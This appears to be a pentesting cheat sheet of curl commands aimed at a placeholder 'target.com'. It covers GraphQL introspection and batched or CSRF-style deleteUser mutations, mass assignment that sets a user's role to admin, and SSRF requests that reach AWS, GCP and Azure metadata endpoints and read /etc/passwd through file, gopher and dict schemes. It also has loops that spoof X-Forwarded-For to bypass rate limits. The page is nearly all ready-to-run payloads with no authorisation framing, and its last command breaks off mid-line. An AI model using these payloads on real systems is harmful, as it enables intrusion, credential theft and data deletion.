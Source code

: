 ## Advanced API Testing

```bash
# Test for GraphQL introspection
curl -X POST \
     -H "Content-Type: application/json" \
     -d '{"query":"{__schema{types{name,fields{name}}}}"}' \
     https://target.com/graphql

# Test for GraphQL batching attacks
curl -X POST \
     -H "Content-Type: application/json" \
     -d '[{"query":"query{user{id}}"},{"query":"mutation{deleteUser(id:1)}"}]' \
     https://target.com/graphql

# Test for GraphQL CSRF
curl -X GET \
     "https://target.com/graphql?query=mutation{deleteUser(id:1)}"

# Test for REST API mass assignment
curl -X PUT \
     -H "Content-Type: application/json" \
     -d '{"id":"123","role":"admin"}' \
     https://target.com/api/users/123
```

## Advanced SSRF Testing

```bash
# Test for AWS metadata access
curl "http://target.com/ssrf?url=http://169.254.169.254/latest/meta-data/"

# Test for GCP metadata access
curl "http://target.com/ssrf?url=http://metadata.google.internal/computeMetadata/v1/" \
     -H "Metadata-Flavor: Google"

# Test for Azure metadata access
curl "http://target.com/ssrf?url=http://169.254.169.254/metadata/instance?api-version=2020-06-01" \
     -H "Metadata: true"

# Test for SSRF with different URL schemes
curl "http://target.com/ssrf?url=file:///etc/passwd"
curl "http://target.com/ssrf?url=gopher://localhost:22/SSH-2.0-OpenSSH_7.6p1"
curl "http://target.com/ssrf?url=dict://localhost:22/info"
```

## Advanced Rate Limit Bypass

```bash
# Bypass rate limiting with X-Forwarded-For rotation
for i in {1..100}; do \
    curl -s -H "X-Forwarded-For: $((RANDOM % 256)).$((RANDOM % 256)).$((RANDOM % 256)).$((RANDOM % 256))" \
         -w "%{http_code}\
" -o /dev/null https://target.com/api/endpoint \
    && sleep 0.5; 
done

# Bypass rate limiting with HTTP/2 multiplexing
curl --http2 -Z "https://target.com/api/endpoint" \
     -H "X-Forwarded-For: $((RANDOM % 256)).$((RANDOM % 256)).$((RANDOM % 256)).$((RANDOM % 256))" \
     -o /dev/null -s -w "%{http_code}\
```